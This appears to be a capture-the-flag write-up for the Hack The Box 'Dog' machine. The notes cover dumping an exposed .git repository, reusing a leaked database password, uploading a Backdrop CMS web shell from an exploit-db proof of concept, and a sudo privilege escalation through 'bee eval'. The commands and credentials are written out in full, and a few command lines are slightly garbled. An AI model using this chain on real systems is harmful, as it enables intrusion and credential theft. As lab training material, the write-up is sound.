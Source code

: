 #TODO
#HTB/WriteUp/Machine/Easy

nmap -sV -sC -A 10.129.77.72

found .git directory
and
robots.txt

http://10.129.77.72/?q=about
found domain dog.htb
echo '10.129.77.72 dog.htb'|sudo tee -a /etc/hosts

git clone https://github.com/lijiejie/GitHack.git && cd GitHack
python3 GitHack.py http://dog.htb/.git
settings.php
mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop

salt
aWFvPQNGZSz1DQ701dD4lC5v1hQW34NefHvyZUzlThQ

hmm, no git commit history, try another tool
githacker --url http://127.0.0.1/.git/ --output-folder result
commit:
todo: customize url aliases.  reference:https://docs.backdropcms.org/documentation/url-aliases
probably will find something interesting there
also note author
Author: root <dog@dog.htb>

lets find out backdrop version in git sources
grep -R version .
./core/themes/basis/basis.info:version = BACKDROP_VERSION
./core/themes/basis/basis.info:version = 1.27.1

searchsploit backdrop 
nothing interesting
lets google backdrop cve rce
found POC
https://www.exploit-db.com/exploits/52021
curl https://www.exploit-db.com/raw/52021 > poc.py

python poc.py http://dog.htb
well, payload is generated and now we need to gain admin creds, lets try default ones
we'll grep source codes
hmmm
./core/includes/password.inc:      $hash = _password_crypt('md5', $password, $stored_hash);

hash is md5?...
examine sources and google, asked deepseek and it seems there is no default password
lets try pass from mysql for user dog and root
didn't work :(

tried forgot password
dog@dog.htb
root@dog.htb
admin@dog.htb
it tells invalid email
tried 
dog
root
admin

and lets check blog posts authors
dogBackDropSystem
yep! unable send email
BackDropJ2024DS2024
but it didn't work either

python BackDropScan.py --url http://dog.htb --userslist /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --userenum
log in to cms with found usernames at /?q=user/login
finally found working one:
tiffany@dog.htb:BackDropJ2024DS2024

python poc.py http://dog.htb
aunpack shell.zip
apack shell.tar.gz shellBackDropScan
http://dog.htb/?q=admin/installer/manual
upload shell.tar.gz

open shell
http://dog.htb/modules/shell/shell.php

list users
ls /home
johncusack

reuse the password:
ssh johncusack@dog.htb
BackDropJ2024DS2024

sudo -l
read /usr/local/bin/bee help and run
sudo /usr/local/bin/bee --root=/var/www/html/ eval "system(cat /root/root.txt');"